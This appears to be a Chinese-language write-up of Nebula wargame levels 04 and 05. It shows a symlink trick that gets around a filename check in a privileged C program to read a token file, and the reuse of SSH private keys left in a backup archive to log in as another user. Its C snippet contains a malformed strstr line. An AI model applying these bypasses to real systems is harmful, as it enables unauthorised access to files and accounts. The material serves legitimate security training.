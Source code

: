 ```
    if (argc == 1)  {
        printf("%s [file to read]\n", argv[0]);
        exit(EXIT_FAILURE);
    }  
    
    if (strstr((argv[1], "token") != NULL) {
        printf("You may not access '%s'\n", argv[1]);
        exit(EXIT_FAILURE);
    }
    
    fd = open(argv[1], O_RDONLY);
    if (fd == -1) {
        err(EXIT_FAILURE, "Unable to open %s", argv[1]);
    }
    
    rc = read(fd, buf, sizeof(buf));
    
    if (rc == -1) {
        err(EXIT_FAILURE, "Unable to read fd %d", fd);
    }
    
    write(1, buf, rc);
}
```

这题的目的是读取/home/flag04/token文件，可是该文件对level04用户没有可读权限，然后通过flag04程序的限制读取token文件，flag04的源码如上。这里我陷入了一个误区了，以为对token文件啥权限都没有，所以注意里都放在代码上了，后面看了lightless的writeup才知道，没有权限的情况下仍然可以进行软链接。
```
level04@nebula:~$ ln -s /home/flag04/token /tmp/fff
level04@nebula:/home/flag04$ ./flag04 /tmp/fff
06508b5e-8909-4f38-b630-fdb148a848a2
```

# Level05

这题很简单，在 `/home/flag05` 目录下多出了 `.backup` 和 `.ssh` 目录，`.ssh` 目录没有可读权限，`.backup`里有个压缩文件，copy到自己的目录下解压。
```
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /home/level05
level05@nebula:/home/flag05/.backup$ cd /home/level05
level05@nebula:/home/level05$ tar zvxf backup-19072011.tgz
```

解压出来了三个文件
* authorized_keys
* id_rsa
* id_rsa.pub
猜测这就是 `.ssh` 目录里的内容，所以可以直接ssh免密登录了
```
level05@nebula:~$ ssh flag05@127.0.0.1
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```
